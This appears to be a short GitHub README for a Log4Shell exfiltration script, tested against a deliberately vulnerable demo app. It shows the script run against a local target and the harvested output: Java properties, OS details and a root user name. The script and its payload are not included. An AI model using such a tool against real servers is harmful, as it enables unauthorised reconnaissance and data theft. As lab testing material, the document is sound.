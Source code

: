 # Log4Exfiltrate
Log4j information exfiltration script (outline)

Just a test.

Made based on [Christophe Tafani-Dereeper log4shell vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app)

```
$ ./log4xfiltrate.php http://127.0.0.1:4444/
Server Listening on 0.0.0.0:7359
Received Connection from 172.17.0.5:36798


[+] Exfiltrated data:

java.version  =>  1.8.0_181
java.home  =>  /usr/lib/jvm/java-1.8-openjdk/jre
java.vm.specification.version  =>  1.8
java.vm.specification.name  =>  Java Virtual Machine Specification
java.vm.version  =>  25.181-b13
java.vm.name  =>  OpenJDK 64-Bit Server VM
java.specification.version  =>  1.8
java.specification.name  =>  Java Platform API Specification
java.class.version  =>  52.0
java.class.path  =>  /app/spring-boot-application.jar
java.library.path  =>  /usr/lib/jvm/java-1.8-openjdk/jre/lib/amd64/server:/usr/lib/jvm/java-1.8-openjdk/jre/lib/amd64:/usr/lib/jvm/java-1.8-openjdk/jre/../lib/amd64:/usr/java/packages/lib/amd64:/usr/lib64:/lib64:/lib:/usr/lib
java.io.tmpdir  =>  /tmp
java.ext.dirs  =>  /usr/lib/jvm/java-1.8-openjdk/jre/lib/ext:/usr/java/packages/lib/ext

os.name  =>  Linux
os.arch  =>  amd64
os.version  =>  5.10.0-kali8-amd64

user.name  =>  root
user.home  =>  /root
user.dir  =>  /
user.country  =>  US
user.language  =>  en

```
